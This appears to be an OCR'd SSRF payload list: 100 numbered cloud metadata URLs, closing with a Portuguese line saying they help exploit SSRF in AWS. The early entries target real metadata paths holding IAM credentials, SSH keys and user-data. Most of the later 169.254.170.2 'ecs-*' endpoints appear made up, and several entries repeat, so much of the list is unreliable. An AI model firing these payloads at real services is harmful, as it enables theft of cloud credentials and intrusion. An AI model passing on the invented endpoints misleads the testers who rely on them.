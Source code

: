 



1. `http://169.254.169.254/latest/meta-data/`
2. `http://169.254.169.254/latest/meta-data/ami-id`
3. `http://169.254.169.254/latest/meta-data/reservation-id`
4. `http://169.254.169.254/latest/meta-data/hostname`
5. `http://169.254.169.254/latest/meta-data/public-keys/`
6. `http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key`
7. `http://169.254.169.254/latest/meta-data/security-groups`
8. `http://169.254.169.254/latest/meta-data/iam/`
9. `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
10. `http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE_NAME]`
11. `http://169.254.169.254/latest/meta-data/mac`
12. `http://169.254.169.254/latest/meta-data/network/`
13. `http://169.254.169.254/latest/meta-data/network/interfaces/`
14. `http://169.254.169.254/latest/meta-data/network/interfaces/macs/`
15. `http://169.254.169.254/latest/meta-data/network/interfaces/macs/[MAC]/`
16. `http://169.254.169.254/latest/meta-data/network/interfaces/macs/[MAC]/vpc-id`
17. `http://169.254.169.254/latest/meta-data/placement/`
18. `http://169.254.169.254/latest/meta-data/placement/availability-zone`
19. `http://169.254.169.254/latest/meta-data/placement/region`
20. `http://169.254.169.254/latest/meta-data/services/`
21. `http://169.254.169.254/latest/meta-data/services/partition`
22. `http://169.254.169.254/latest/meta-data/instance-action`
23. `http://169.254.169.254/latest/meta-data/instance-id`
24. `http://169.254.169.254/latest/meta-data/instance-type`
25. `http://169.254.169.254/latest/meta-data/local-ipv4`
26. `http://169.254.169.254/latest/meta-data/local-hostname`
27. `http://169.254.169.254/latest/meta-data/profile`
28. `http://169.254.169.254/latest/meta-data/public-ipv4`
29. `http://169.254.169.254/latest/meta-data/reservation-id`
30. `http://169.254.169.254/latest/meta-data/security-groups`
31. `http://169.254.169.254/latest/user-data`
32. `http://169.254.169.254/latest/dynamic/instance-identity/`
33. `http://169.254.169.254/latest/dynamic/instance-identity/document`
34. `http://169.254.169.254/latest/dynamic/instance-identity/pkcs7`
35. `http://169.254.169.254/latest/dynamic/instance-identity/signature`
36. `http://169.254.169.254/latest/dynamic/instance-identity/rsa2048`
37. `http://169.254.170.2/v1/metadata`
38. `http://169.254.170.2/v1/tasks`
39. `http://169.254.170.2/v1/stats`
40. `http://169.254.170.2/v1/container-stats`
41. `http://169.254.170.2/v1/containers`
42. `http://169.254.170.2/v1/credentials?id=`
43. `http://169.254.170.2/v1/docker`
44. `http://169.254.170.2/v1/docker-endpoints`
45. `http://169.254.170.2/v1/docker-ids`
46. `http://169.254.170.2/v1/docker-ips`
47. `http://169.254.170.2/v1/docker-names`
48. `http://169.254.170.2/v1/docker-ports`
49. `http://169.254.170.2/v1/dockerenv`
50. `http://169.254.170.2/v1/dockercfg`
51. `http://169.254.170.2/v1/ecs-agent`

Continuando com a lista:

52. `http://169.254.170.2/v1/ecs-tasks`
53. `http://169.254.170.2/v1/ecs-services`
54. `http://169.254.170.2/v1/ecs-environment`
55. `http://169.254.170.2/v1/ecs-config`
56. `http://169.254.170.2/v1/ecs-clusters`
57. `http://169.254.170.2/v1/ecs-containers`
58. `http://169.254.170.2/v1/ecs-health`
59. `http://169.254.170.2/v1/ecs-metadata`
60. `http://169.254.170.2/v1/ecs-resources`
61. `http://169.254.170.2/v1/ecs-scheduler`
62. `http://169.254.170.2/v1/ecs-stats`
63. `http://169.254.170.2/v1/ecs-task-definitions`
64. `http://169.254.170.2/v1/ecs-version`
65. `http://169.254.170.2/v1/ecs-volumes`
66. `http://169.254.170.2/v1/ecs-workloads`
67. `http://169.254.170.2/v1/ecs-endpoints`
68. `http://169.254.170.2/v1/ecs-credentials`
69. `http://169.254.170.2/v1/ecs-agent-info`
70. `http://169.254.170.2/v1/ecs-agent-config`
71. `http://169.254.170.2/v1/ecs-container-stats`
72. `http://169.254.170.2/v1/ecs-container-metadata`
73. `http://169.254.170.2/v1/ecs-container-endpoints`
74. `http://169.254.170.2/v1/ecs-container-environment`
75. `http://169.254.170.2/v1/ecs-container-logs`
76. `http://169.254.170.2/v1/ecs-container-network`
77. `http://169.254.170.2/v1/ecs-container-resources`
78. `http://169.254.170.2/v1/ecs-container-secrets`
79. `http://169.254.170.2/v1/ecs-container-stats`
80. `http://169.254.170.2/v1/ecs-container-tasks`
81. `http://169.254.170.2/v1/ecs-container-versions`
82. `http://169.254.170.2/v1/ecs-deployments`
83. `http://169.254.170.2/v1/ecs-describe-services`
84. `http://169.254.170.2/v1/ecs-describe-tasks`
85. `http://169.254.170.2/v1/ecs-discovery`
86. `http://169.254.170.2/v1/ecs-events`
87. `http://169.254.170.2/v1/ecs-instance-metadata`
88. `http://169.254.170.2/v1/ecs-instance-profile`
89. `http://169.254.170.2/v1/ecs-instance-stats`
90. `http://169.254.170.2/v1/ecs-instance-tasks`
91. `http://169.254.170.2/v1/ecs-logs`
92. `http://169.254.170.2/v1/ecs-network-config`
93. `http://169.254.170.2/v1/ecs-network-stats`
94. `http://169.254.170.2/v1/ecs-node`
95. `http://169.254.170.2/v1/ecs-pull-credentials`
96. `http://169.254.170.2/v1/ecs-service-stats`
97. `http://169.254.170.2/v1/ecs-task-stats`
98. `http://169.254.170.2/v1/ecs-task-metadata`
99. `http://169.254.170.2/v1/ecs-vpc-config`
100. `http://169.254.170.2/v1/ecs-workload-stats`

Esses endpoints são especificamente úteis para explorar potenciais vulnerabilidades SSRF em ambientes AWS, explorando a API de metadados da instância EC2 e outros serviços internos. Lembre-se de usar essas informações de forma ética e responsável.
